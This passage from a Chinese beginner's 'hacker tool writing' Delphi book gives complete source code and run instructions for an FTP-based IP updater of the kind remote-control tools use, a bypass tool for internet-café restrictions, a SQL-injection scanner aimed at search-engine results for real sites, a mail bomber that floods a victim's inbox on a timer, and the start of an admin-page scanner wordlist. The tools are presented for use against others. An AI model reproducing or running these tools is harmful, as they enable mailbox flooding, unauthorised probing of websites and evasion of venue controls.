    Label5: TLabel;
    Edit6: TEdit;
    Edit7: TEdit;
    Label6: TLabel;
    Label7: TLabel;
    Label8: TLabel;
    Memo1: TMemo;
    procedure FormCreate(Sender: TObject);
    procedure Button1Click(Sender: TObject);
    procedure NMFTP1AuthenticationFailed(var Handled: Boolean);
    procedure NMFTP1Connect(Sender: TObject);
    procedure Button2Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}


```
图 4.17

```pascal
// 以下函数用于得到本机 IP 地址
function LocalIP: string;
type
  TaPInAddr = array [0..10] of PInAddr;
  PaPInAddr = ^TaPInAddr;
var
  phe: PHostEnt;
  pptr: PaPInAddr;
  Buffer: array[0..63] of Char;
  I: Integer;
  GInitData: TWSADATA;
begin
  WSAStartup($101, GInitData);
  Result := '';
  GetHostName(Buffer, SizeOf(Buffer));
  phe := GetHostByName(Buffer);
  if phe = nil then Exit;
  pptr := PaPInAddr(phe^.h_addr_list);
  I := 0;
  while pptr^[I] <> nil do
  begin
    Result := StrPas(inet_ntoa(pptr^[I]^));
    Inc(I);
  end;
  WSACleanup;
end;

procedure TForm1.FormCreate(Sender: TObject);
begin
  Memo1.Visible := False;  // 让 MEMO 控件不可见
  Edit3.Text := LocalIP;   // 调用函数得到本机外网 IP 地址
end;

procedure TForm1.Button1Click(Sender: TObject);
begin
  NMFTP1.Cancel;  // 断开连接

  if (Edit6.Text = '') or (Edit7.Text = '') then // 注意要使用“=”（比较），不能用“:=”（赋值）
  begin
    ShowMessage('请输入 FTP 帐户和密码');
  end
  else
  begin
    NMFTP1.Host := Edit1.Text;             // 服务器的 IP 地址
    NMFTP1.Port := StrToInt(Edit2.Text);   // 端口是数字，这里要进行转换
    NMFTP1.UserID := Edit6.Text;           // FTP 帐户
    NMFTP1.Password := Edit7.Text;         // FTP 密码
    NMFTP1.Connect;                        // 发起连接
  end;
end;

procedure TForm1.NMFTP1AuthenticationFailed(var Handled: Boolean);
begin
  ShowMessage('连接失败！');
end;

procedure TForm1.NMFTP1Connect(Sender: TObject);  // 和 FTP 服务器连接成功
begin
  ShowMessage('连接并且更新成功！');
  Memo1.Clear;  // 清空 MEMO1 的内容
  Memo1.Text := Edit5.Text + ':' + Edit4.Text;
  Memo1.Lines.SaveToFile('c:\temp.jpg');         // 把配置信息保存到本地
  NMFTP1.Upload('c:\temp.jpg', Edit5.Text);      // 把本地文件上传到 FTP 服务器
  DeleteFile('c:\temp.jpg');                     // 清除本地临时文件
end;

procedure TForm1.Button2Click(Sender: TObject);
begin
  NMFTP1.Disconnect;  // 断开连接
end;

end.


```

### 4.3.3 程序运行

我们使用冷风 FTP 服务器先搭建一个 FTP 服务器，并且指定 C:\TEST 目录为 FTP 的根目录，同时把程序默认使用的 21 端口修改为 22 端口，点击左下角的“开始”按钮，FTP 服务器就正常运行了，如图 4.18。

接下来运行编写好的 IP 更新器，在 IP 地址输入框中自动得到了本机的当前 IP 地址“58.48.209.253”，输入 FTP 的主机和端口信息，然后再输入登录 FTP 主机的帐户和密码信息，最后点击“刷新”按钮，可以看到程序提示“连接成功”，事实上此时就已经把“58.48.209.253:8000”这个信息上传到 FTP 服务器上了，如图 4.19。
其中“58.48.209.253”就是本机当前的外网 IP 地址，在 CMD 下输入 IPCONFIG 命令，可以看到确实如此，如图 4.20。我们再来查看更新 IP 地址的文件 IP.JPG，使用记事本程序打开后，可以看到成功地把“58.48.209.253:8000”这个信息更新到 IP 文件中了，如图 4.21。

## 4.4 黑客记事本

小菜们都使用过某某专版的黑客记事本吧，与其临渊羡鱼，还不如退而结网，下面我就为大家介绍如何使用 DELPHI 的各种组件来编写出一个属于自己的黑客记事本程序。
### 4.4.1 程序编写

程序的界面稍微复杂一些，使用到了打开对话框和保存对话框，用于打开和保存记事本文件，还使用到了 MAINMENU 组件，这个组件可以用来创建菜单，程序的界面如图 4.22 所示。另外，还使用到了一个 TABPAGE，我们要分别修改它的 TABSHEET 的标题属性为“记事本”和“浏览器”，如图 4.23。
介绍一下 MAINMENU 菜单组件的使用方法，双击 MAINMENU 组件，来到菜单编辑窗口，在其中选择默认的第一个菜单，如图 4.24，然后来到对象监视器窗口，修改这个菜单的 CAPTION 标题属性为需要的字符串，如图 4.25。如果要获得菜单分隔符，可以在菜单的 CAPTION 标题属性中输入一个减号“-”，最终设计好的菜单界面如图 4.26 所示，程序的完整代码如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, OleCtrls, SHDocVw, ComCtrls, StdCtrls, ExtCtrls, Menus;

type
  TForm1 = class(TForm)
    MainMenu1: TMainMenu;
    N1: TMenuItem;
    N2: TMenuItem;
    N3: TMenuItem;
    N4: TMenuItem;
    N5: TMenuItem;
    N6: TMenuItem;
    N7: TMenuItem;
    milW0rmcom1: TMenuItem;
    N8: TMenuItem;
    N9: TMenuItem;
    N10: TMenuItem;
    N11: TMenuItem;
    MD51: TMenuItem;
    IP1: TMenuItem;
    N12: TMenuItem;
    N13: TMenuItem;
    SaveDialog1: TSaveDialog;
    OpenDialog1: TOpenDialog;
    GroupBox1: TGroupBox;
    Label1: TLabel;
    Edit1: TEdit;
    Button1: TButton;
    GroupBox2: TGroupBox;
    Label2: TLabel;
    Label3: TLabel;
    Label4: TLabel;
    Label5: TLabel;
    Edit2: TEdit;
    Edit3: TEdit;
    Edit4: TEdit;
    Edit5: TEdit;
    Label6: TLabel;
    PageControl1: TPageControl;
    TabSheet1: TTabSheet;
    TabSheet2: TTabSheet;
    Memo1: TMemo;
    WebBrowser1: TWebBrowser;
    procedure Button1Click(Sender: TObject);
    procedure N6Click(Sender: TObject);
    procedure milW0rmcom1Click(Sender: TObject);
    procedure N8Click(Sender: TObject);
    procedure N10Click(Sender: TObject);
    procedure IP1Click(Sender: TObject);
    procedure MD51Click(Sender: TObject);
    procedure N12Click(Sender: TObject);
    procedure N13Click(Sender: TObject);
    procedure N4Click(Sender: TObject);
    procedure N3Click(Sender: TObject);
    procedure N2Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure TForm1.Button1Click(Sender: TObject);
begin
  if Edit1.Text = '' then   // 注意，这里使用的是“=”（比较语句），而不是“:=”（赋值语句）
  begin
    ShowMessage('请填写关键字！');
    Exit;
  end;
  WebBrowser1.Navigate('http://www.baidu.com/s?wd=' + Edit1.Text); // 使用百度进行查询
  TabSheet2.Show; // 让浏览器标签页显示出来
end;

procedure TForm1.N6Click(Sender: TObject);
begin
  Close;
end;

procedure TForm1.milW0rmcom1Click(Sender: TObject);
begin
  WebBrowser1.Navigate('http://www.milw0rm.com/'); // 调用 WEBBROWSER 控件的 NAVIGATE 方法，浏览相关站点
  TabSheet2.Show;
end;

procedure TForm1.N8Click(Sender: TObject);
begin
  WebBrowser1.Navigate('http://www.xfocus.net/');
  TabSheet2.Show;
end;

procedure TForm1.N10Click(Sender: TObject);
begin
  WebBrowser1.Navigate('http://hi.baidu.com/pespin');
  TabSheet2.Show;
end;

procedure TForm1.IP1Click(Sender: TObject);
begin
  WebBrowser1.Navigate('http://www.ip138.com/');
  TabSheet2.Show;
end;

procedure TForm1.MD51Click(Sender: TObject);
begin
  WebBrowser1.Navigate('http://www.xmd5.org/');
  TabSheet2.Show;
end;

procedure TForm1.N12Click(Sender: TObject);
begin
  WebBrowser1.Navigate('http://www.virustotal.com/zh-cn/');
  TabSheet2.Show;
end;

procedure TForm1.N13Click(Sender: TObject);
begin
  WebBrowser1.Navigate('http://www.dict.cn/');
  TabSheet2.Show;
end;

procedure TForm1.N4Click(Sender: TObject);
begin
  Memo1.Text := '';
end;

procedure TForm1.N3Click(Sender: TObject);
begin
  if SaveDialog1.Execute then
    Memo1.Lines.SaveToFile(SaveDialog1.FileName) // 保存文件，注意这里没有使用“;”结束，因为 ELSE 语句前不允许使用“;”
  else
    ShowMessage('保存文件错误');
end;

procedure TForm1.N2Click(Sender: TObject);
begin
  if OpenDialog1.Execute then
    Memo1.Lines.LoadFromFile(OpenDialog1.FileName) // 使用 MEMO 控件的 LOADFROMFILE 方法，载入文件
  else
    ShowMessage('打开文件错误');
end;

end.


```

### 4.4.2 程序运行

现在就可以按 F9 键运行程序了，可以在输入框中输入一些内容，然后点击文件菜单中的保存，此时就会弹出一个保存对话框，在这个对话框中填写一个要保存的文件名称就可以保存文件了，如图 4.27。

如果我们在关键字输入栏中输入想要查询的关键字，然后再点击“搜索”按钮，就可以调用浏览器去搜索指定的关键字了，如图 4.28。
图 4.27

图 4.28

程序还自带了很多黑客站点的导航，通过这些导航就可以快速地浏览指定的网站，如图 4.29。另外，程序还提供了一些可用于查询的网站，比如查询 IP 地址、在线查询 MD5、在线翻译的网站等，如图 4.30。
图 4.29

图 4.30

这样，一个黑客记事本就编写完毕了，有能力的读者朋友们可以在此基础上修改和添加一些自己喜欢的实用功能。

## 4.5 网吧破解先锋

我们在网吧上网时，往往会碰到这样或那样的限制，比如无法进入磁盘，不让使用 CMD，不允许下载等等，本节我们就尝试着编写一个网吧破解工具。

### 4.5.1 程序编写

程序使用到了一些编辑框组件和按钮组件，同时使用到了 IDHTTP 组件，使用这个组件可以达到下载网络文件的目的，程序界面如图 4.31 所示。

程序的全部代码如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls, IdBaseComponent, IdComponent,
  IdTCPConnection, IdTCPClient, IdHTTP;

type
  TForm1 = class(TForm)
    GroupBox1: TGroupBox;
    GroupBox2: TGroupBox;
    GroupBox3: TGroupBox;
    Button1: TButton;
    Button2: TButton;
    Button3: TButton;
    Button4: TButton;
    Edit1: TEdit;
    Label1: TLabel;
    Button5: TButton;
    Button6: TButton;
    Edit2: TEdit;
    Edit3: TEdit;
    Button7: TButton;
    Label2: TLabel;
    Label3: TLabel;
    IdHTTP1: TIdHTTP;
    Edit4: TEdit;
    Label4: TLabel;
    Label5: TLabel;
    Button8: TButton;
    procedure Button1Click(Sender: TObject);
    procedure Button2Click(Sender: TObject);
    procedure Button3Click(Sender: TObject);
    procedure Button4Click(Sender: TObject);
    procedure Button5Click(Sender: TObject);
    procedure Button6Click(Sender: TObject);
    procedure Button7Click(Sender: TObject);
    procedure FormCreate(Sender: TObject);
    procedure Edit2Change(Sender: TObject);
    procedure Button8Click(Sender: TObject);


```
图 4.31

```pascal
private
  { Private declarations }
public
  { Public declarations }
end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

procedure TForm1.Button1Click(Sender: TObject);
begin
  WinExec('explorer.exe c:', SW_NORMAL); // 首先使用 WINEXEC 函数执行，然后调用 EXPLORER.EXE 来打开 C 盘
end;

procedure TForm1.Button2Click(Sender: TObject);
begin
  WinExec('explorer.exe d:', SW_NORMAL);
end;

procedure TForm1.Button3Click(Sender: TObject);
begin
  WinExec('explorer.exe e:', SW_NORMAL);
end;

procedure TForm1.Button4Click(Sender: TObject);
begin
  if Edit1.Text = '' then Exit;
  WinExec(PChar('explorer.exe ' + Edit1.Text), SW_NORMAL);
end;

procedure TForm1.Button5Click(Sender: TObject);
begin
  WinExec(PChar('cmd.exe'), SW_NORMAL); // 打开命令提示符，需要把 CMD.EXE 字符串转换为 PCHAR 类型
end;

procedure TForm1.Button6Click(Sender: TObject);
begin
  try
    WinExec(PChar('command.com'), SW_NORMAL); // 打开 Win98 的命令提示符，为防止出错使用了 TRY 语句
  except
    ShowMessage('打开出错！'); // 如果出错，就提示！
  end;
end;

procedure TForm1.Button7Click(Sender: TObject);
var
  a: TFileStream;
begin
  if (Edit2.Text = '') or (Edit3.Text = '') then
  begin
    ShowMessage('输入文件地址！');
    Exit;
  end;
  ShowMessage('如果被下载文件较大，程序会假死！');
  a := TFileStream.Create(Edit3.Text, fmCreate);   // 创建一个文件流
  IdHTTP1.Get(Edit2.Text, a);                      // 调用 IDHTTP 控件的 GET 方法，把下载的文件流保存到文件流 A 中
  Application.ProcessMessages;                     // 防止程序假死
  a.Free;                                          // 释放文件流
end;

procedure TForm1.FormCreate(Sender: TObject);
begin
  Edit4.Text := Application.ExeName; // 得到本程序的路径，包括文件名
end;

procedure TForm1.Edit2Change(Sender: TObject);
var
  p1: Integer;
  s: string;
  s2: string;
begin
  s := Edit2.Text;
  p1 := Pos('/', s);
  while (p1 > 0) do
  begin
    Application.ProcessMessages;
    Delete(s, 1, p1);
    s2 := s;   // 得到网络文件的文件名，比如 HTTP://URL.COM/DOWN.EXE，那么就得到 DOWN.EXE
    p1 := Pos('/', s);
  end;
  Edit3.Text := 'c:\\' + s2;
end;

procedure TForm1.Button8Click(Sender: TObject);
begin
  WinExec('regedit.exe', SW_NORMAL);
end;

end.


```

程序主要使用到了 WINEXEC 函数来调用磁盘和调用 CMD 等系统文件，然后使用 IDHTTP 组件来实现网络文件的下载功能。

### 4.5.2 程序运行

在编写完代码后，就可以使用 F9 键来运行程序了，点击 C 盘按钮，就可以自动弹出 C 盘来，如图 4.32。点击右边的 CMD 按钮，就可以调用出 CMD 命令提示符了，如图 4.33。另外，程序还有文件下载功能，就留给各位读者朋友自己去测试和使用了。
图 4.32

图 4.33

## 4.6 注入漏洞检测程序

对于入侵过网站的小菜们，一定都使用过注入检测工具吧，与其使用别人的工具还不如自己也编写出一款呢，本节我就教大家使用 DELPHI 编写属于自己的注入漏洞检测程序。

### 4.6.1 原理分析

首先我们要实现对自定义关键字的搜索，我们通过访问“http://www.baidu.com/s?wd=无敌小龙”这个地址就可以搜索关键字为“无敌小龙”的网页了，也就是说百度的查询方式为“http://www.baidu.com/s?wd=+关键字”，如图 4.34。对于注入漏洞的判断，如果在注入地址的后面添加“AND 1=1”返回正常，而添加“AND 1=2”返回了不正常的页面，基本上可以断定这是一个存在注入漏洞的网页了。
图 4.34

图 4.35

### 4.6.2 程序编写

程序使用到了一个 WEBBROWSER 组件，用来显示查询的关键字，然后再添加一个检测按钮，用来实现对超级链接的注入漏洞进行检测，如图 4.35。由于程序中使用到了一些函数，所以还要使用到 WININET 库文件，如图 4.36。
#### 一、搜索关键字

搜索关键字可以直接使用浏览器组件访问百度指定的页面，代码如下：

```pascal
procedure TForm1.Button1Click(Sender: TObject);
begin  // 浏览网页
  WebBrowser1.Navigate('http://www.baidu.com/s?wd=' + Edit1.Text);
  ListBox1.Clear; // 清空列表中的链接
end;
```

#### 二、得到页面所有的超级链接

要获取当前页面的所有超级链接，这里使用到了页面 HTML 元素，作用是把当前页面所有的 HTML 超级链接显示在 LISTBOX1 中，代码如下。

```pascal
procedure TForm1.WebBrowser1DownloadComplete(Sender: TObject);
var
  i, n: Integer;
begin
  for i := 0 to WebBrowser1.OleObject.document.links.length - 1 do
    ListBox1.Items.Add(WebBrowser1.OleObject.document.links.item(i).href); // 读取链接
  //n:=WebBrowser1.OleObject.document.links.length;  // 链接数
end;
```

#### 三、获取页面 HTML 代码

除了要获取当前页面的所有超级链接外，还要得到每个超级链接所对应的网页文件，因为只有获取了这些超级链接对应的网页文件之后，通过在其后面追加“AND 1=1”和“AND 1=2”才能查询探测是否存在注入漏洞。下面给出一个得到指定超级链接的网页代码的函数 GETWEBPAGE，代码如下：

```pascal
function GetWebPage(const Url: string): string;
var
  Session, HttpFile: HINTERNET;
  szSizeBuffer: Pointer;
  dwLengthSizeBuffer: DWord;
  dwReserved: DWord;
  dwFileSize: DWord;
  dwBytesRead: DWord;
  Contents: PChar;
begin
  Session := InternetOpen('', 0, nil, nil, 0);
  HttpFile := InternetOpenUrl(Session, PChar(Url), nil, 0, 0, 0);
  dwLengthSizeBuffer := 1024;
  HttpQueryInfo(HttpFile, 5, szSizeBuffer, dwLengthSizeBuffer, dwReserved);
  GetMem(Contents, dwFileSize);
  InternetReadFile(HttpFile, Contents, dwFileSize, dwBytesRead);
  InternetCloseHandle(HttpFile);
  InternetCloseHandle(Session);
  Result := StrPas(Contents);
  FreeMem(Contents);
end;
```

#### 四、程序全部代码

通过对以上各个技术细节的剖析，再就可以进行程序的编写了。程序的流程如下：首先使用 WEBBROWSER 组件查询指定的关键字，然后在 WEBBROWSER 的数据完成事件中把当前搜索页面的所有超级链接显示到列表框里面，接着在程序的检测按钮单击事件中，开始使用一个循环来获取追加了探测字符串的新的网页链接，最后判断两个页面是否相等，如果不相等说明存在注入漏洞。

程序的全部代码如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls, OleCtrls, SHDocVw, Psock, NMHttp, Wininet, ComCtrls; // 添加 Wininet

type
  TForm1 = class(TForm)
    WebBrowser1: TWebBrowser;
    Button1: TButton;
    Edit1: TEdit;
    Button2: TButton;
    ListBox1: TListBox;
    Label1: TLabel;
    ListBox2: TListBox;
    Label2: TLabel;
    ProgressBar1: TProgressBar;
    procedure Button1Click(Sender: TObject);
    procedure WebBrowser1DownloadComplete(Sender: TObject);
    procedure Button2Click(Sender: TObject);
  private
    { Private declarations }
  public
    { Public declarations }
  end;

var
  Form1: TForm1;

implementation

{$R *.dfm}

function GetWebPage(const Url: string): string;
var
  Session, HttpFile: HINTERNET;
  szSizeBuffer: Pointer;
  dwLengthSizeBuffer: DWord;
  dwReserved: DWord;
  dwFileSize: DWord;
  dwBytesRead: DWord;
  Contents: PChar;
begin
  Session := InternetOpen('', 0, nil, nil, 0);
  HttpFile := InternetOpenUrl(Session, PChar(Url), nil, 0, 0, 0);
  dwLengthSizeBuffer := 1024;
  HttpQueryInfo(HttpFile, 5, szSizeBuffer, dwLengthSizeBuffer, dwReserved);
  GetMem(Contents, dwFileSize);
  InternetReadFile(HttpFile, Contents, dwFileSize, dwBytesRead);
  InternetCloseHandle(HttpFile);
  InternetCloseHandle(Session);
  Result := StrPas(Contents);
  FreeMem(Contents);
end;

procedure TForm1.Button1Click(Sender: TObject);
begin
  // 浏览网页
  WebBrowser1.Navigate('http://www.baidu.com/s?wd=' + Edit1.Text);
  ListBox1.Clear;  // 清空列表中的链接
end;

procedure TForm1.WebBrowser1DownloadComplete(Sender: TObject);
var
  i, n: Integer;
begin
  for i := 0 to WebBrowser1.OleObject.document.links.length - 1 do
    ListBox1.Items.Add(WebBrowser1.OleObject.document.links.item(i).href);  // 获取链接
  //n:=WebBrowser1.OleObject.document.links.length;        // 链接数
end;

procedure TForm1.Button2Click(Sender: TObject);
var
  str1, str2: string;
  i: Integer;
begin
  ProgressBar1.Min := 0;        // 设置进度条的属性
  ProgressBar1.Max := ListBox1.Items.Count - 1;
  for i := 0 to ListBox1.Items.Count - 1 do   // 最大取值（ListBox1.Items.Count-1）
  begin
    str1 := GetWebPage(ListBox1.Items.Strings[i] + ' and 1=1');
    str2 := GetWebPage(ListBox1.Items.Strings[i] + ' and 1=2');
    if str1 <> str2 then              // 如果两个字符串不相等
      ListBox2.Items.Add('存在注入漏洞——>>' + ListBox1.Items.Strings[i])
    else
      ListBox2.Items.Add(ListBox1.Items.Strings[i]);   // 没有漏洞直接添加地址
    Application.ProcessMessages;    // 防止程序假死
    ProgressBar1.Position := i;     // 设置进度条进度
    if i = ListBox1.Items.Count - 1 then
      ShowMessage('地址检测完毕！');
  end;
end;


```

### 4.6.3 程序运行

按 F9 运行程序，在关键字输入框中输入想要查询的关键字，比如我们输入“.PHP?ID=108”，因为通过查询这样的关键字可以搜索到很多存在注入漏洞的超级链接地址，不一会儿就显示出了所有的超级链接，我们再点击“检测”按钮，程序就会自动运行起来，然后开始注入漏洞的检测工作，如图 4.37。读者朋友们可以在此基础上编写出功能更为强大的注入漏洞检测程序。

## 4.7 邮箱轰炸机

许多小菜都遭遇过邮箱炸弹吧，被恶意攻击者发送了一堆的垃圾邮件塞满了我们的邮箱空间，我们也来动动手，使用 DELPHI 编写出一个邮箱炸弹来。

程序的界面非常简单，使用到了编辑框组件和按钮组件，还有一个 TIMER 组件，如图 4.38。程序还使用到了两个单元，一个是默认的单元文件 1，另一个是需要自己建立的单元文件 2，其中单元 1 调用了单元 2 中的邮件发送函数 SendMail2。

- 一、单元 1

## 第四章·初级黑客工具编写
图 4.37

图 4.38

只能发送一次，因此程序使用到了 TIMER 组件，就可以不停地向指定邮箱发送垃圾邮件了，代码如下：

```pascal
unit Unit1;

interface

uses
  Windows, Messages, SysUtils, Variants, Classes, Graphics, Controls, Forms,
  Dialogs, StdCtrls, ExtCtrls;

type
  TForm1 = class(TForm)
    Button1: TButton;
    Edit1: TEdit;
    Edit2: TEdit;
    Edit3: TEdit;
    Edit4: TEdit;
    Edit5: TEdit;
    Memo1: TMemo;
    Label1: TLabel;
    Label2: TLabel;
    Label3: TLabel;
    Label4: TLabel;
    Label5: TLabel;
    Label6: TLabel;
    Label7: TLabel;
    Edit6: TEdit;
    Label10: TLabel;
    Timer1: TTimer;
    Button2: TButton;
    Button3: TButton;
    procedure Button1Click(Sender: TObject);
    procedure Button2Click(Sender: TObject);
```

```pascal
procedure Timer1Timer(Sender: TObject);
procedure FormCreate(Sender: TObject);
procedure Button3Click(Sender: TObject);
private
  { Private declarations }
public
  { Public declarations }
end;

var
  Form1: TForm1;

implementation

uses
  unit2;

{$R *.dfm}

procedure TForm1.Button1Click(Sender: TObject);
begin
  Form1.Caption := '准备发送!';
  if SendMail2(Edit1.Text, Edit2.Text, Edit3.Text, Edit4.Text, Edit5.Text, Edit6.Text, Memo1.Text) = True then
    Form1.Caption := '发送成功!'
  else
    Form1.Caption := '发送失败!';
end;

procedure TForm1.Button2Click(Sender: TObject);
begin
  Timer1.Enabled := True; // 时钟组件可以运行
end;

procedure TForm1.Timer1Timer(Sender: TObject);
begin
  Button1.Click; // 调用按钮1的单击事件，发送邮件
end;

procedure TForm1.FormCreate(Sender: TObject);
begin
  Timer1.Enabled := False; // 首先让时钟组件不运行
end;

procedure TForm1.Button3Click(Sender: TObject);
begin
  Timer1.Enabled := False; // 停止轰炸
end;

end.


```

## 二、单元2

对于单元2，首先要手工创建，创建的方法是在文件（File）菜单下选择“New”下的单元（Unit），如图4.39，然后在新建立的单元文件2中输入如图4.40所示的代码。
单元2中的全部代码如下，它最核心的功能就是提供了一个 SendMail2 函数，供单元1的按钮单击事件进行调用：

```pascal
unit unit2;

interface

uses Windows;

function SendMail2(Smtp, User, Pass, GetMail, ToMail, Subject, MailText: string): Bool;

implementation

uses WinSock;

var
  SendBody: string;

const
  CRLF = #13#10;
  BaseTable: string = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=';

function StrPas(const Str: PChar): string;
begin
  Result := Str;
end;

function StrCopy(Dest: PChar; const Source: PChar): PChar;
asm
  PUSH EDI
  PUSH ESI
  MOV ESI, EAX
  MOV EDI, EDX
  MOV ECX, 0FFFFFFFFH
  XOR AL, AL
  REPNE SCASB
  NOT ECX
  MOV EDI, ESI
  MOV ESI, EDX
  MOV EDX, ECX
  MOV EAX, EDI
  SHR ECX, 2
  REP MOVSD
  MOV ECX, EDX
  AND ECX, 3
  REP MOVSB
  POP ESI
  POP EDI
end;

function StrLen(const Str: PChar): Cardinal; assembler;
asm
  MOV EDX, EDI
  MOV EDI, EAX
  MOV ECX, 0FFFFFFFFH
  XOR AL, AL
  REPNE SCASB
  MOV EAX, 0FFFFFFFEH
  SUB EAX, ECX
  MOV EDI, EDX
end;

// 查表
function FindInTable(CSource: Char): Integer;
begin
  Result := Pos(string(CSource), BaseTable) - 1;
end;

// 编码
function EncodeBase64(const Source: string): string;
var
  Times, LenSrc, J: Integer;
  x1, x2, x3, x4: Char;
  xt: Byte;
begin
  Result := '';
  LenSrc := Length(Source);
  if (LenSrc mod 3 = 0) then
    Times := LenSrc div 3
  else
    Times := LenSrc div 3 + 1;
  for J := 0 to Times - 1 do
  begin
    if LenSrc >= (3 + J * 3) then
    begin
      x1 := BaseTable[(Ord(Source[1 + J * 3]) shr 2) + 1];
      xt := (Ord(Source[1 + J * 3]) shl 4) and 48;
      xt := xt or (Ord(Source[2 + J * 3]) shr 4);
      x2 := BaseTable[xt + 1];
      xt := (Ord(Source[2 + J * 3]) shl 2) and 60;
      xt := xt or (Ord(Source[3 + J * 3]) shr 6);
      x3 := BaseTable[xt + 1];
      xt := (Ord(Source[3 + J * 3]) and 63);
      x4 := BaseTable[xt + 1];
    end
    else if LenSrc >= (2 + J * 3) then
    begin
      x1 := BaseTable[(Ord(Source[1 + J * 3]) shr 2) + 1];
      xt := (Ord(Source[1 + J * 3]) shl 4) and 48;
      xt := xt or (Ord(Source[2 + J * 3]) shr 4);
      x2 := BaseTable[xt + 1];
      xt := (Ord(Source[2 + J * 3]) shl 2) and 60;
      x3 := BaseTable[xt + 1];
      x4 := '=';
    end
    else
    begin
      x1 := BaseTable[(Ord(Source[1 + J * 3]) shr 2) + 1];
      xt := (Ord(Source[1 + J * 3]) shl 4) and 48;
      x2 := BaseTable[xt + 1];
      x3 := '=';
      x4 := '=';
    end;
    Result := Result + x1 + x2 + x3 + x4;
  end;
end;

function LookUpName(const Name: string): TInAddr;
var
  HostEnt: PHostEnt;
  InAddr: TInAddr;
begin
  HostEnt := GetHostByName(PChar(Name));
  FillChar(InAddr, SizeOf(InAddr), 0);
  if (HostEnt <> nil) then
  begin
    with InAddr, HostEnt^ do
    begin
      S_un_b.s_b1 := h_addr^[0];
      S_un_b.s_b2 := h_addr^[1];
      S_un_b.s_b3 := h_addr^[2];
      S_un_b.s_b4 := h_addr^[3];
    end;
  end;
  Result := InAddr;
end;

function StartNet(Host: string; Port: Integer; var Sock: Integer): Bool;
var
  WSAData: TWSAData;
  FSocket: Integer;
  SockAddrIn: TSockAddrIn;
  Err: Integer;
begin
  Result := False;

  WSAStartup($0101, WSAData);
  FSocket := Socket(PF_INET, SOCK_STREAM, IPPROTO_IP);
  if (FSocket = INVALID_SOCKET) then Exit;

  SockAddrIn.sin_addr := LookUpName(Host);
  SockAddrIn.sin_family := PF_INET;
  SockAddrIn.sin_port := htons(Port);

  Err := Connect(FSocket, SockAddrIn, SizeOf(SockAddrIn));
  if (Err = 0) then
  begin
    Sock := FSocket;
    Result := True;
  end;
end;

procedure StopNet(FSocket: Integer);
begin
  CloseSocket(FSocket);
  WSACleanup();
end;

function SendData(FSocket: Integer; SendStr: string): Integer;
var
  DataBuf: array[0..4096] of Char;
  Err: Integer;
begin
  StrCopy(DataBuf, PChar(SendStr));
  Err := Send(FSocket, DataBuf, StrLen(DataBuf), MSG_DONTROUTE);
  Result := Err;
end;

function GetData(FSocket: Integer): string;
const
  MaxSize = 1024;
var
  DataBuf: array[0..MaxSize] of Char;
begin
  Recv(FSocket, DataBuf, MaxSize, 0);
  Result := StrPas(DataBuf);
end;

function SendMail2(Smtp, User, Pass, GetMail, ToMail, Subject, MailText: string): Bool;
var
  FSocket, Res: Integer;
begin
  Result := False;

  if StartNet(Smtp, 25, FSocket) then
  begin
    SendData(FSocket, 'HELO ' + User + CRLF);
    GetData(FSocket);

    SendData(FSocket, 'AUTH LOGIN' + CRLF);
    GetData(FSocket);

    SendData(FSocket, EncodeBase64(User) + CRLF);
    GetData(FSocket);
    SendData(FSocket, EncodeBase64(Pass) + CRLF);
    GetData(FSocket);
    SendData(FSocket, 'MAIL FROM: <' + GetMail + '>' + CRLF);
    GetData(FSocket);
    SendData(FSocket, 'RCPT TO: <' + ToMail + '>' + CRLF);
    GetData(FSocket);
    SendData(FSocket, 'DATA' + CRLF);
    GetData(FSocket);

    SendBody :=
      'From: <' + GetMail + '>' + CRLF +
      'To: <' + ToMail + '>' + CRLF +
      'Subject: ' + Subject + CRLF +
      CRLF + MailText + CRLF + '.' + CRLF;
    Res := SendData(FSocket, SendBody);
    GetData(FSocket);
    SendData(FSocket, 'QUIT' + CRLF);
    GetData(FSocket);
    StopNet(FSocket);

    Result := (Res <> SOCKET_ERROR);
  end;
end;

end.


```

程序的代码可能有些长，无法一下子理解也不要紧，我们可以把这个单元2作为一个重复模块来进行调用，等熟悉了之后，就可以温故知新了。

## 三、程序运行

程序编写完毕后，按 F9 运行程序，在各项信息输入框中输入相应的信息，然后就可以点击“发送测试”按钮来发送一封邮件进行测试了。如果要实现轰炸邮箱的效果，可以点击“轰炸”按钮，如果要停止轰炸，就点击“停止轰炸”按钮，如图4.41。我们打开受害者的邮箱，可以看到堆满了垃圾邮件，如图4.42。
## 4.8 网站后台扫描器

小菜们在使用注入工具时，一定都使用过它们的后台地址扫描功能吧，本节我们就来揭示如何通过编程来实现后台页面文件的扫描。

### 4.8.1 程序编写

程序使用到了一个 OPENDIALOG 组件，用来载入要扫描的网页后台文件，同时还使用到了一个 LISTBOX 组件、一个 MEMO 组件和两个按钮组件，程序的界面如图4.43所示。
同时程序还使用到了 STATUSBAR 组件，我们需要创建两个 PANEL，方法是在 STATUSBAR 组件上点右键，在弹出的菜单中选择面板编辑器，如图4.44。然后在弹出的窗口中点击新建按钮，创建两个 PANEL 对象，如图4.45。
同时修改 PANELS[0] 的宽度为 360，如图4.46；修改 PANELS[1] 的宽度为 50，如图4.47。另外，程序还使用到了 MEMO 组件作为要扫描的后台文件的容器，点击 MEMO 组件，来到对象监视器窗口，选择 LINES 属性右侧的“...”按钮，如图4.48。
在新窗口中输入如下的常用网页后台文件，如图4.49，最后点击确定按钮，就可以看到在 MEMO 组件中载入了这些网页后台地址。

- 常用网页后台文件如下：
- /admin
- /index.html
- /index.php
- /admin_index
- /admintab
- /admin_main
- /wwwlog
- /wenzhang
- /blog
- /default.asp
- /admin.htm
